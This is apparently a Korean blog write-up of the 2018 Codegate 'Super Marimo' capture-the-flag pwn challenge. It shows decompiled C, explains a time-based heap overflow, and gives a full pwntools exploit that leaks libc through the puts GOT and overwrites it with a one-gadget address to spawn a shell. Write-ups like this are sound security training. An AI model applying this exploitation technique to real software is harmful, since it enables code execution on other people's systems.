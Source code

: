 ```yaml
---
title: "2018 Codegate Super Marimo"
date: 2019-12-23
tags: [Codegate]
categories: [Pwn]
---
```


64bit heap overflow 문제다. 변수랑 함수 이름은 내가 수정해놨다.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

이 프로그램에서 hidden function이 존재했다. 

```c
signed __int64 __fastcall vuln(const char *a1)
{
  void *v1; // ST18_8

  if ( strcmp(a1, "show me the marimo") )
    return 0LL;
  v1 = malloc(24uLL);
  sub_400EED(v1, 1u, 5u);
  Marimo[Marimo_cnt++] = v1;
  return 1LL;
}
```

여기서 보면 show me the marimo라는 글자랑 같으면 Marimo를 생성해줄 수 있다.

또 다른 곳에서 만들 수 있긴한데 돈이 필요하다고 떠서 그냥 호출하는 함수는 똑같다.

```c
_BYTE *__fastcall sub_400EED(struct marimo *a1, unsigned int a2, unsigned int a3)
{
  unsigned __int64 v3; // ST00_8
  int v4; // ST04_4

  v3 = __PAIR__(a2, a3);
  *&a1->birth = time(0LL);
  *&a1[1].name = a2;
  *&a1[2].profile = malloc(16uLL);
  puts("What's your new marimo's name? (0x10)");
  printf(">> ", v3);
  fflush(stdout);
  __isoc99_scanf("%16s", *&a1[2].profile);
  *&a1[5].name = malloc(32 * v4);
  printf("write %s's profile. (0x%X)\n", *&a1[2].profile, (32 * v4));
  fflush(stdout);
  printf(">> ");
  fflush(stdout);
  return sub_400FF9(*&a1[5].name, 32 * v4);
}
```

이런식으로 구조체 변수에 넣어서 Marimo를 만들어준다.

보기 쉽게 구조체는 이런식으로 만들어줬다. 

![](https://user-images.githubusercontent.com/32904385/71411403-7fd27f80-268c-11ea-9293-9caee4bc6f31.png)

취약점은 여기서 터진다.

```c
unsigned __int64 __fastcall Modify(struct marimo *a1)
{
  unsigned int v1; // ST18_4
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  char v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts(&byte_4014F4);
  printf("birth : %d\n", *&a1->birth);
  v1 = time(0LL);
  printf("current time : %d\n", v1);
  v3 = v1 + *&a1[1].name - *&a1->birth;
  printf("size : %d\n", v3);
  printf("price : %d\n", 5 * v3);
  printf("name : %s\n", *&a1[2].profile);
  printf("profile : %s\n", *&a1[5].name);
  puts(&byte_4014F4);
  puts("[M]odify / [B]ack ?");
  printf(">> ");
  fflush(stdout);
  __isoc99_scanf("%19s", &v4);
  if ( v4 == 'M' )
  {
    puts("Give me new profile");

    printf(">> ", &v4);
    fflush(stdout);
    sub_400FF9(*&a1[5].name, 32 * v3);          // vuln
    Modify(a1);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

32 * 흐른 시간만큼의 크기로 수정해줄 수 있다. 그래서 여기서 흐른시간을 늘려서 Overflow 일으켜서 함수 포인터를 바꿀 수 있다. 

```
payload : buf[56] + puts_got(profile) + puts_got(name)
```

Marimo를 두개 만들어서 첫 번째 Marimo를 오버플로우나게 해서 puts_got를 Marimo의 name값을 가르키는 포인터에 넣고 view해주면 leak해줄 수 있어서 립씨 베이스를 구할 수 있다.

libc leak해줬으면 oneshot을 이용해서 modify해서 Marimo의 profile을 가르키는 포인터에 oneshot 주소를 구해서 got overwrite 해주면 된다.  `sub_400FF9` 함수에 의해서 개행전까지 입력받을 수 있다.

![](https://user-images.githubusercontent.com/32904385/71410643-6da31200-2689-11ea-856d-14e8dbacef8e.png)

'A'를 40개 입력했을 때 이런식으로 되는데 `0x15e015000` 을 덮지 않고 `0xc5c4c0` 을 바꿔줘야한다. 덮으면 나중에 수정부분에서 입력을 안 받고 프로그램이 꺼진다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./marimo')
e = ELF('./marimo')
libc = e.libc

def vuln(name,profile):
	p.sendlineafter('>> ','show me the marimo')
	p.sendlineafter('>> ',name)
	p.sendlineafter('>> ',profile)

def view(index):
	p.sendlineafter('>> ','V')
	p.sendlineafter('>> ',str(index))

def modify(profile):
	p.sendlineafter('>> ','M')
	p.sendlineafter('>> ',profile)
	p.sendlineafter('>> ','B')

vuln('AAAA','BBBB')
vuln('CCCC','DDDD')

sleep(3)
payload = 'A'*48
payload += p64(0x15e015000)
payload += p64(e.got['puts']) # name
payload += p64(e.got['puts']) # profile

view(0)
modify(payload)
#raw_input()
view(1)
p.recvuntil('name : ')
libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('>> ','M')
p.sendlineafter('>> ',p64(libc_base + 0x45216)) # puts overwrite
p.interactive()
```

